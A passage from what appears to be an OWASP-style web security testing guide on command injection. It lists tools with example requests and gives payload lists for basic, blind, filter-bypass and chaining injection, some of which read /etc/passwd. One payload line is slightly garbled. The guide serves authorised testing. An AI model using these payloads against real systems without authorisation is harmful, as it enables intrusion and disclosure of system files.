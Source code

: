       http "http://example.com/ping?ip==127.0.0.1;whoami"
      ```

- **Netcat (nc)**: Tests server responses for command execution.
  - Install on Linux:
    ```bash
    sudo apt install netcat
    ```
  - Install on Windows/Mac: Download from [nmap.org](https://nmap.org/ncat/).
  - Example:
    ```bash
    echo -e "GET /ping?ip=127.0.0.1;whoami HTTP/1.1\nHost: example.com\n\n" | nc example.com 80
    ```

- **Postman**: GUI tool for testing command injection in APIs or forms.
  - Download from [Postman](https://www.postman.com/downloads/).
  - Send payloads in query parameters or body.
  - **Tip**: Use Collections for batch testing.

- **Browser Developer Tools (Chrome/Firefox)**: Inspects responses to command payloads.
  - Access: Press `F12` or `Ctrl+Shift+I`.
  - Use Network tab to analyze responses and Elements tab for command output.
  - **Note**: Firefox’s 2025 network analysis improvements enhance response inspection.

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-INPV-012, testing Command Injection vulnerabilities across input vectors, basic command injection, blind command injection, filter bypass, and time-based injection.

### Common Command Injection Payloads

Below is a list of common Command Injection payloads to test various system command vulnerabilities. Start with simple payloads and escalate based on responses. Use with caution in controlled environments to avoid unintended server impact.

- **Basic Command Injection Payloads**:
  - `;whoami` (Executes `whoami`)
  - `|id` (Pipes to `id` command)
  - `&& uname -a` (Chains with `uname`)
  - `|| cat /etc/passwd` (Runs if previous fails)

- **Blind Command Injection Payloads**:
  - `;sleep 5` (Delays response for  - `5` ping seconds)
  - `|ping -c 5 127.0.0.1` (Sends 5 pings)
  - `&& echo test > /tmp/test.txt` (Writes to file)

- **Filter Bypass Payloads**:
  - `%3bwhoami` (URL-encoded semicolon)
  - `${whoami}` (Variable substitution)
  - `\who\ami` (Backslash-separated)
  - `$(whoami)` (Command substitution)

- **Command Chaining Payloads**:
  - `;ls;pwd` (Multiple commands)
  - `&&whoami&&id` (Conditional chaining)
  - `|cat /etc/passwd|grep root` (Piped commands)
